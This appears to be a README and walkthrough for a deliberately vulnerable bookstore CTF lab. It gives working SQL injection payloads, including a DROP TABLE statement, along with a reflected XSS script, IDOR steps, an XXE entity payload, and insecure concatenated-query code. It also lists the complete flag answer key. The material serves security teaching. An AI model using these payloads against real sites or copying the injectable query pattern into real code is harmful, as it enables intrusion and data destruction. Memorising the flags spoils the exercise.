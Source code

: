 # BookTryHackMe

Test your web hacking skills on a simulated bookstore website! Explore multiple pages with realistic-looking content while uncovering hidden vulnerabilities included are:

* **SQL Injection (SQLi)**
* **XML External Entity Injection (XXE)**
* **Insecure Direct Object Reference (IDOR)**
* **Reflected Cross-Site Scripting (XSS)**
* **File Upload (arbitrary .txt upload to trigger flags)**

Discover hidden flags by exploiting these vulnerabilities safely in a CTF environment.

---

# BookStore CTF - Detailed Walkthrough (Exploits + Code)

> **Note:** All exploit examples are for this controlled lab only. Never test these payloads against real, production systems.

---

## 1) SQL Injection (Login page)

**Location:** `GET/POST /login` – form on *Login* page.

**Why it’s vulnerable (server-side):**
The app builds a SQL string by concatenating user input (simulated in `app.py`), e.g.

```python
query = f"SELECT * FROM users WHERE email='{email}' AND password='{password}'"
```

Because input is inserted directly into the query string, classic SQL injection is possible.

**How to exploit (client-side input):**

* Open the Login page.
* In **Email** paste:

```
' OR '1'='1
```

* In **Password** put anything (e.g., `x`) and submit.

**Why this works:**
The injected email closes the first quote and adds an always-true clause (`'1'='1'`), making the WHERE clause true regardless of password.

**Expected result:**

```
CTF FLAG: THM{SQLi_successful}
```

---

## 2) SQL Injection (Register page)

**Location:** `GET/POST /register` – form on *Register* page.

**Why it’s vulnerable (server-side):**
The app simulates an `INSERT` statement using direct concatenation:

```python
query = f"INSERT INTO users (fullname, email, password) VALUES ('{fullname}', '{email}', '{password}')"
```

The route also detects patterns like `UNION SELECT`, `;`, or `OR 1=1` to mark a successful injection for the CTF.

**How to exploit (client-side input examples):**

* **UNION example (Full Name field):**

```
Alice' UNION SELECT 'a'--
```

Email: `test@example.com`
Password: anything

* **OR 1=1 example (Full Name or Email):**

```
eve@example.com' OR 1=1 --
```

* **Statement terminator example (Email field):**

```
bob@example.com; DROP TABLE users; --
```

**Why these work:**
They demonstrate common SQLi techniques: `UNION` to combine results, `OR 1=1` to force truth, and using `;` to terminate/append statements. The CTF route watches for these patterns.

**Expected result:**

```
THM{register_sqli_success}
```

---

## 3) Reflected XSS (Search page)

**Location:** `GET /search` - search input on *Search* page.

**Why it’s vulnerable (server-side / template):**
The search handler returns `query` to the template without escaping, allowing injected HTML/JS to run.

**How to exploit (client-side input):**

* Go to the Search page.
* Enter:

```html
<script>alert('XSS')</script>
```

* Submit.

**Why this works:**
The search input is reflected back into the page unescaped, so the browser executes the `<script>`.

**Expected result:**

```
You've unlocked a hidden book! FLAG: THM{reflected_xss_success}
```

---

## 4) IDOR - Hidden Book

**Location:** `GET /book?id=<id>` - Book Details page.

**Why it’s vulnerable (server-side):**
The app uses numeric IDs in the URL and does **no access restriction** for special IDs. The hidden CTF book exists at ID `99` but is omitted from lists.

**How to exploit (client-side):**

* Visit a normal book URL, e.g., `/book?id=1`.
* Change the `id` value to `99`.
* Reload the page.

**Expected result:**

```
FLAG: THM{idor_hidden_book}
```

---

## 5) IDOR - Hidden User (Profile)

**Location:** `GET /profile?id=<id>` - Profile page.

**Why it’s vulnerable:**
The `profile` route reads the `id` parameter and returns the corresponding entry from the `users` dictionary **without authorization checks**.

**How to exploit (client-side):**

* Visit `/profile?id=1`.
* Change ID to `99`.
* Reload.

**Expected result:**

```
FLAG: THM{idor_hidden_user}
```

---

## 6) XXE (XML External Entity) - Lab simulation

**Location:** `/xxe` endpoint (review submission posts here).

**Why it’s vulnerable / simulation note:**
Modern XML parsers often do not expand external entities by default. For safety, this lab **simulates XXE**: the route checks for `<!ENTITY xxe` or `&xxe;` and returns the flag when detected.

**How to exploit (client-side XML payload):**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe "THM{xxe_successful}">
]>
<root>
  <book>&xxe;</book>
</root>
```

Paste this into the review/XML textarea and submit.

**Expected result:**

```
FLAG: THM{Review_xxe_successful}
```

---

## 7) File Upload CTF

**Location:** `/upload` and `/upload_profile` routes.

**How it works:**
Uploading any `.txt` file triggers the flag.

**Example:**

* Upload `example.txt` in either form.
* The route detects `.txt` and displays the corresponding CTF flag:

```
THM{file_upload_successful}
THM{profile_upload_successful}
```

---

## 8) Final Objective

Collect all individual flags:

```
THM{SQLi_successful}
THM{register_sqli_success}
THM{reflected_xss_success}
THM{idor_hidden_book}
THM{idor_hidden_user}
THM{xxe_successful}
THM{Review_xxe_successful}
THM{file_upload_successful}
THM{profile_upload_successful}
```
